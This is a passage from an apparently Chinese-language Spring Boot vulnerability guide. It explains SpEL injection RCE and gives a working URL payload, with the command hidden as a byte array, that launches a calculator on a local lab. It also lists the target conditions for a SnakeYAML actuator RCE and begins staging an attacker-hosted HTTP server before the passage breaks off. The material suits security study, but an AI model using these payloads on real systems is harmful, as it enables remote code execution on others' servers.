 

#### 漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中  `${}`  包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞



#### 漏洞分析：

​	[SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)



#### 漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

正常访问：

```
http://127.0.0.1:9091/article?id=66
```

执行 `open -a Calculator` 命令：

```java
http://127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

 

### 0x02：spring cloud SnakeYAML RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标依赖的 `spring-cloud-starter` 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）



#### 利用方法：

##### 步骤一： 托管 yml 和 jar 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
